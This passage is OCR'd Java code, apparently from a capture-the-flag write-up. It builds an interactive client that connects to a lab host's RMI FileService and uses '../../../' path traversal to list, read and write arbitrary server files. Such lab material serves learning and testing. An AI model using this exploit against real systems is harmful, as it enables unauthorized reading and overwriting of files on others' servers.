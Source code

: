 ```java

final Registry registry = LocateRegistry.getRegistry("registry.webhosting.htb",

9002);

this.svc = (FileService) registry.lookup("FileService");

}

public void shell() throws Exception {

final BufferedReader reader = new BufferedReader(new

InputStreamReader(System.in));

String cmd;

while ((cmd = reader.readLine()) != null) {

final String[] arr = cmd.split(" ", 2);

final String rawCmd = arr[1];

final String vhostId = "1a72be394c52"; // the created subdomain

switch (arr[0]) {

case "ls":

final List<AbstractFile> files = this.svc.list(vhostId, "../../../" +

rawCmd);

files.forEach(s -> System.out.println(s.getAbsolutePath()));

break;

case "cat":

final byte[] b = this.svc.view(vhostId, "../../../" + rawCmd);

System.out.println(new String(b));

break;

case "write": // write <file> <string>

final String[] arrSpl = rawCmd.split(" ", 2);

this.svc.uploadFile(vhostId, "../../../" + arrSpl[0],

arrSpl[1].getBytes(StandardCharsets.UTF_8));

break;

}

}

}

}
```